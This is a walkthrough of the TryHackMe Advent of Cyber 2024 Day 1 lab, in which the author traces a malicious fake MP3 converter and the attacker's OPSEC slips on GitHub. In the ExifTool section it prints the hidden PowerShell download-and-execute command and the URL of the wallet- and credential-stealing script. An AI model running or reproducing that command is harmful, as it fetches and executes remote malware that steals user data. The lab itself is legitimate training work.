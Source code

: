 # 🎄 TryHackMe Advent of Cyber 2024 – Day 1: OPSEC Challenge


## Challenge Overview 🎅

Day 1 of the **Advent of Cyber 2024** starts off strong by taking us through an investigation into a suspicious YouTube to MP3 converter website. The goal is to analyze downloaded files, uncover malicious behavior, and track down the attacker by following their OPSEC mistakes. Along the way, I explored:
- Metadata analysis with tools like `exiftool`
- Unpacking and inspecting PowerShell scripts
- Tracing digital breadcrumbs back to their source

This was a fun and hands-on start to the month!

## Objectives 🎯

1. Investigate the suspicious website and analyze how it works.
2. Look into the files downloaded from the site for anything malicious.
3. Trace the attacker’s identity using GitHub and highlight their OPSEC blunders.


## Step 1: Investigating the Website

The website, hosted at `10.10.200.221`, looked like a standard YouTube to MP3 converter. Here’s what I did:
1. Opened the site in the AttackBox and noticed the “About” page credited its creator as **“The Glitch.”**
2. Pasted a YouTube link into the form to download a file named `download.zip`.
3. Extracted the ZIP file and found two files inside:
   - **`song.mp3`**
   - **`somg.mp3`**

At this point, everything seemed normal, but the odd filename `somg.mp3` caught my attention.

## Step 2: File Analysis Using ExifTool 🔍

### Analyzing `song.mp3`

I started with the seemingly legitimate file, running:

```
exiftool song.mp3
```

**Result:**
- The file was confirmed to be a regular MP3 with standard metadata.
- Nothing unusual or malicious here—just an audio file.


### Analyzing `somg.mp3`

The suspiciously named `somg.mp3` was next. I ran:

```
exiftool somg.mp3
```

**Result:**
- This wasn’t an MP3 at all! It was actually a Windows Shortcut file (`.lnk`).
- The metadata revealed an embedded PowerShell command:

```
-ep Bypass -nop -c "(New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1','C:\ProgramData\s.ps1'); iex (Get-Content 'C:\ProgramData\s.ps1' -Raw)"
```

This command is clearly malicious—it bypasses PowerShell execution policies, downloads a script from a remote URL, and executes it on the victim’s machine.

## Step 3: Opening `somg.mp3` in Browser 🌐

To learn more, I opened the URL embedded in the PowerShell command:

[https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1](https://raw.githubusercontent.com/MM-WarevilleTHM/IS/refs/heads/main/IS.ps1)

**Script Analysis:**
- The script collects sensitive data, such as:
  - Cryptocurrency wallet files
  - Browser credentials
- This stolen data is sent to a **Command and Control (C2) server** hosted by the attacker.

## Step 4: Tracing the Attacker on GitHub 🔗

The PowerShell script contained a signature:

```
"Created by the one and only M.M."
```

### GitHub Search

I searched GitHub for this signature:

```
"Created by the one and only M.M."
```

This led me to:
- A repository owned by **M.M.**
- GitHub Issues where M.M. interacted publicly, leaving a digital trail.

### Revealing the Attacker’s Identity

By following M.M.’s activity on GitHub, I uncovered:
1. **Real Name:** The attacker’s profile included their real name.
2. **Repositories:** They hosted malicious scripts publicly.
3. **Comments:** M.M.’s interactions in Issues sections tied their GitHub account to the malware.

## Key Findings 🔑

1. **Legitimate File:** `song.mp3` was harmless.
2. **Malicious File:** `somg.mp3` contained a PowerShell command to execute a malicious script.
3. **C2 Server:** The attacker’s script sent stolen data to a remote server.
4. **Attacker Identity:** Poor OPSEC practices on GitHub exposed "M.M."

## Lessons Learned 🌟

### OPSEC Failures

This challenge was a great reminder of how attackers often slip up:
- **Reused Aliases:** M.M. used the same username across platforms.
- **Identifiable Metadata:** Including a signature in the script made it traceable.
- **Public Interactions:** Commenting on GitHub linked M.M.’s activity to their malware.

### Tools and Techniques

Some of the key tools and steps I used:
- **`exiftool`:** To extract metadata and uncover the PowerShell command.
- **Browser Inspection:** To investigate URLs and find additional clues.
- **GitHub Search:** To trace the attacker and identify their OPSEC mistakes.

## Final Thoughts 🎁

Day 1 of the Advent of Cyber series kicked off with a solid introduction to metadata analysis, malicious script investigation, and tracking down an attacker’s identity. It was a great mix of technical analysis and detective work, and I’m excited to see what challenges Day 2 will bring!

- [Main Page](README.md)
- [Day 2: Log Analysis](day2.md)
- [Day 3: Log Analysis](day3.md)
- [Day 4: Atomic Red Team](day4.md)
- [Day 5: XXE](day5.md)
- [Day 6: Sandboxes](day6.md)
- [Day 7: AWS Sandboxes](day7.md)
- [More Days to Come!](#)
